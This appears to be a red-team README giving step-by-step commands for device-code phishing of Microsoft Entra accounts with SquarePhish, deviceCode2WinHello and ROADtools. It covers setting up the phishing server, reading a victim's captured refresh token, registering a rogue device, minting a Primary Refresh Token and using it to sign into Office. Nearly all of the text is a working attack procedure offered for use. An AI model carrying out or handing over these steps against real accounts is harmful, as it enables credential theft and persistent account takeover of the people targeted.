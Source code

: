 ### Sources
* https://github.com/secureworks/squarephish
* https://github.com/kiwids0220/deviceCode2WinHello/blob/main/main.py
* https://github.com/dirkjanm/ROADtools
* https://dirkjanm.io/phishing-for-microsoft-entra-primary-refresh-tokens

### Generate certificate
```
openssl req -x509 -newkey rsa:4096 -sha256 -days 3650 -nodes -keyout <keyfile>.key -out <certfile>.crt
```

### Adjust server config (use application ID of Microsoft Authentication Broker)
```
vim settings.config

# modify
CERT_CRT = "<path>/<certFile>.crt" # Server SSL certificate .crt file
CERT_KEY = "<path>/<privKey>.key" # Server SSL certificate .key file
CLIENT_ID = "29d9ed98-a469-4536-ade2-f981bc1d605e"
```

### Start server
```
python3 squish.py server
```

### Retreive refresh token once available
```
cat <victim>@<domain>.tokeninfo.json
```

### Use deviceCode2WinHello and refresh token to trigger device registration in Azure/Entra 
```
python3 register-flow.py --wfb -r <refreshToken>
```

### Get Primary Refresh Token (roadtx.prt)
```
roadtx prt --refresh-token <refreshToken> -c <pemFile>.pem -k <keyfile>.key
```

### Use PRT
```
roadtx browserprtauth -url https://office.com
```


